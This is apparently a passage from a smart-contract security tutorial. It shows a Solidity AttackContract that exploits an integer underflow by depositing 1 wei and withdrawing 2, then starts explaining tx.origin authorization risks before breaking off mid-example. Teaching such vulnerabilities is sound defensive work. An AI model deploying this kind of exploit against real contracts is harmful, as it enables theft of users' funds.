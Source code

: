 ## Exploit Code 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import "./VulnerableContract.sol";

contract AttackContract {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = VulnerableContract(_vulnerableContractAddress);
    }

    // Attack function to exploit the vulnerability
    function exploit() public {
        // Deposit a small amount of ether (1 wei)
        vulnerableContract.deposit{value: 1}();
        
        // Attempt to withdraw a large amount of ether, exploiting the underflow
        // We'll try to withdraw more than the deposited amount
        vulnerableContract.withdraw(2);
    }

    // Fallback function to receive ether
    receive() external payable {}
}

```
## <font color="yellow"> Authorization through tx.origin <a id="typography"></a></font>

### Description
* In Solidity, tx.origin is a global variable that returns the address of the externally owned account (EOA) that originally initiated the transaction. Understanding its behavior and implications is crucial, especially when it comes to authorization checks in smart contracts.

* How tx.origin Works
msg.sender: In the context of a contract function call, msg.sender represents the address that directly invoked the function (it could be an EOA or another contract).
tx.origin: This represents the original external account (EOA) that started the transaction, regardless of how many contracts are called in the process.
* Example Scenario
Consider a multi-contract call scenario: 

* External Account: An EOA (0xABC) initiates a transaction.
Contract A: 0xABC calls Contract A.
Contract A: In turn, calls Contract B.
In this setup:
